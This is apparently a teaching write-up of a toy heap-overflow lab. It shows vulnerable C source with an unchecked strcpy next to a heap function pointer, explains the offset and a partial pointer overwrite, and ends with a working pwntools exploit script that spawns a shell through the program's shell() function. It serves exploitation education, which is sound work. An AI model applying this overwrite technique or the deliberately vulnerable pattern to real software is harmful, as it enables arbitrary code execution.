### Intro

In this post I will walk through a small heap-overflow challenge and show how the overflow reaches a heap-resident function pointer. This is a toy binary, but it is a good lab for understanding chunk adjacency, overwrite distance, and one very important exploitation detail: why a **partial pointer overwrite** is enough in this program.

---

### Binary Info



For this write-up I recompiled the binary from source and disabled PIE and the stack canary. Disabling those protections keeps function addresses stable between runs and makes the control-flow goal easier to explain.

That does **not** mean this is a realistic hardened target. It means the example is intentionally simplified so we can focus on the heap bug itself.

---

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct data {
    char string[0x20];
};

struct funcpointer {
    void (*fp)();
    char __pad[64 - sizeof(unsigned long)];
};

void shell() {
    system("/bin/bash");
}

void exploit() {
    printf("Exploit is completed, But where is the Shell >_<\n");
}

void fail() {
    printf("Looks like your exploit did not work this time!\n");
}

void vuln(char arg[]) {
    struct data *value;
    struct funcpointer *f;

    value = malloc(sizeof(struct data));
    f = malloc(sizeof(struct funcpointer));
    f->fp = NULL;

    strcpy(value->string, arg);

    if (strncmp(value->string, "exploited", 9) == 0) {
        f->fp = exploit;
    }

    printf("data is at %p, fp is at %p, will be calling %p\n", value, f, f->fp);
    free(value);

    if (f->fp) {
        f->fp();
    } else {
        fail();
    }
}

int main(int argc, char **argv) {
    if (argc < 2) {
        printf("Enter a string as argument\n");
        return -1;
    }

    vuln(argv[1]);
    return 0;
}
```

---

### First Observations

There are four details that matter immediately:

1. `value` and `f` are allocated one after the other.
2. `strcpy(value->string, arg)` copies attacker-controlled data without a length check.
3. If the input starts with `"exploited"`, the program explicitly writes `exploit` into `f->fp`.
4. The final indirect call is `f->fp()`, so corrupting that pointer gives us control over which function gets called.

The target function is `shell()`.

---

### Basic Runtime Behavior

If we run the binary with a normal input, the string comparison fails and `f->fp` stays `NULL`, so the program calls `fail()`.



If we pass `"exploited"`, the comparison succeeds and the program stores the address of `exploit` in `f->fp`.



At this point the intended program logic is clear. The next step is figuring out how the heap overflow changes that logic.

---

### Why `exploited...` Is a Trap

A first idea might be to pass `"exploited"` followed by a long tail of `A`s:

`exploitedAAAAAAAAAAAAAAAAAAAA...`



With a longer input we do get an overflow:



So why does this not immediately give us control of the function pointer?

Because the same input that overflows the heap also satisfies the `strncmp(..., "exploited", 9)` check. Once that branch executes, the program writes `exploit` back into `f->fp` and overwrites our earlier corruption.

You can see the two heap allocations sitting next to each other here:



And after `strcpy`, the function pointer region really is corrupted:



But then execution reaches this block:

```c
if (strncmp(value->string, "exploited", 9) == 0) {
    f->fp = exploit;
}
```

That is why the next snapshot shows `f->fp` restored to the address of `exploit`:







So the lesson is simple: if we want to control `f->fp`, we must **avoid** the `strncmp` success path.

---

### The Correct Strategy

Instead of starting the input with `"exploited"`, we use a non-matching pattern such as a long run of `A`s:



Now the program crashes because `f->fp` has been overwritten with attacker-controlled bytes like `0x616161...`, and the indirect call tries to jump to an invalid address.

That crash is useful. It proves that:

- the heap overflow reaches the function pointer
- the comparison block is no longer restoring `exploit`
- we only need the correct offset and the right bytes for `shell`

---

### Calculating the Offset

There are two clean ways to calculate the overwrite distance.

#### Using a cyclic pattern



#### Using the heap layout directly


In the heap layout screenshot:

- user input starts at `0x4052a0`
- `f->fp` is stored at `0x4052d0`

So the overwrite offset is:

```text
0x4052d0 - 0x4052a0 = 0x30 = 48
```

That means we need:

- `48` bytes of padding
- followed by the bytes that redirect `f->fp` to `shell`

---

### The Important Detail: Why a Partial Overwrite Works

This is the part that was missing in the original draft.

Our input reaches the program through `argv`, and `strcpy` also stops at the first `NUL` byte. That means we cannot just drop a full 8-byte pointer containing embedded zero bytes into the argument string and expect it to be copied as-is.

In this lab that problem is solved by the target itself:

- `f->fp` is initialized to `NULL`
- PIE is disabled, so `shell` lives at a low fixed address such as `0x4011f6`
- only the low non-zero bytes of that pointer need to be overwritten
- the remaining high bytes stay zero because the pointer started as `NULL`

So this exploit is really a **partial function-pointer overwrite**.

That is why stripping trailing `NUL` bytes from the packed address works here. It would not be a safe general rule for every target.

---

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

context.binary = elf = ELF("./overflow")
context.arch = "amd64"
context.os = "linux"

offset = 48
partial_shell_ptr = p64(elf.sym["shell"]).rstrip(b"\x00")
payload = b"A" * offset + partial_shell_ptr

io = elf.process(argv=[payload])
print(io.clean().decode("utf-8"))
io.interactive()
```

Why this works in this specific lab:

- `48` bytes reach `f->fp`
- `shell` is at a non-PIE low address
- `f->fp` was initialized to zero
- the exploit only needs the low non-zero bytes of the function pointer

---

### Result



The exploit succeeds and the program ends up calling `shell()`.

---

### Limitations of This Lab

This challenge is good for learning, but it is intentionally friendly:

- the binary is non-PIE
- the target pointer sits right after the overflowing chunk
- the pointer starts as `NULL`, which makes the partial overwrite possible
- the write primitive is a simple `strcpy`

In a real target, any one of those conditions can change the exploit path completely.
